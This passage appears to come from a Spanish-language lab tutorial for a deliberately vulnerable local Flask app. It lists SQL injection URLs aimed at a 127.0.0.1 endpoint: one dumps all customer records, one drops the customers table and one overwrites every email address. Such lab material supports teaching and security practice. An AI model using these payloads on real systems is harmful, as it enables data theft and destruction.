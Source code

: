    - Se añade un endpoint adicional para obtener un cliente por su ID (`GET /customers/<int:id>`).

## **Probar la URL Vulnerable**

Ahora puedes acceder a la URL vulnerable y hacer pruebas de inyección SQL.

- URL Base:

  ```bash
  http://127.0.0.1:5000/pratica001.html?name=admin
  ```

#### **Ejemplo de URL Vulnerable con Inyección SQL**:

- **Inyección SQL** para obtener todos los registros:

  ```bash
  http://127.0.0.1:5000/pratica001.html?name=' OR '1'='1
  ```

- **Inyección SQL** para eliminar la tabla `customers` (¡solo para pruebas!):

  ```bash
  http://127.0.0.1:5000/pratica001.html?name='; DROP TABLE customers; --
  ```

- **Inyección SQL** para modificar datos:

  ```html
  http://127.0.0.1:5000/pratica001.html?name='; UPDATE customers SET email='hacked@example.com'; --
  ```